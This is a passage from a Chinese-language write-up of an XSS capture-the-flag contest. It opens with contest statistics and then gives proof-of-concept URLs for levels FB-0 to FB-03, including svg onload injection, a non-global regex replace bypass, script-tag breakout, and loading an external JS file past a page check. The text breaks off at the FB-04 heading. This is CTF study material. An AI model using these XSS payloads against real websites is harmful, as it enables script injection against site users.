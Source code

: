 # 无声杯 xss 挑战赛 writeup

本次比赛参与人数3700多人，提交并获得了分数的正确答案共有1069条。最终有65名参赛者获得了奖品，一、二、三名分别由p.z，piaca和香草获得。答题结果的总体分布如下：

![enter image description here](http://drops.javaweb.org/uploads/images/fea2665547561121f56bd02dc7d84897eee0fd7b.jpg)

年龄越来越大，记性越来越差。就当做笔记吧（所有 POC 都只是为了通关）。

1. FB-0
-------

这一关没什么可说的，直接给出 POC：

```
http://sandbox.host.smartgslb.com/fb0/xss1.php?code=</script><svg/onload=alert(1)//

```

2. FB-01
--------

这一关只有有个坑就是`正则`

```
name=name.replace(/</,"&lt;");

```

replace 没有使用全局 g 参数，造成只会替换字符串中的第一个 "<" 符号，所以这关的 POC：

```
http://sandbox.host.smartgslb.com/fb1/#code=<<svg/onload=alert(1)>

```

3. FB-02
--------

这一关访问很明显就是一段 js 代码，只是去掉了`<script>`， 直接输入到页面上，但是通过 func 参数可以控制页面上的两个点。由于 POC 要求 chrome 有效，所以最初一直停留在绕 chrome 的 XSS Auditor 上了，浪费不少时间。后面重新换个思路，利用两个输出点，结合当前页面内容，通过下面 POC 过关：

```
http://sandbox.host.smartgslb.com/fb2/?func=';alert(1);</script><script>tpl={'

```

4. FB-03
--------

这一关比较简单，绕过对 page 的检测，加载一个外域的 JS 文件，直接给 POC：

```
http://sandbox.host.smartgslb.com/fb3/?page=//test.com/1

```

5. FB-04
--------
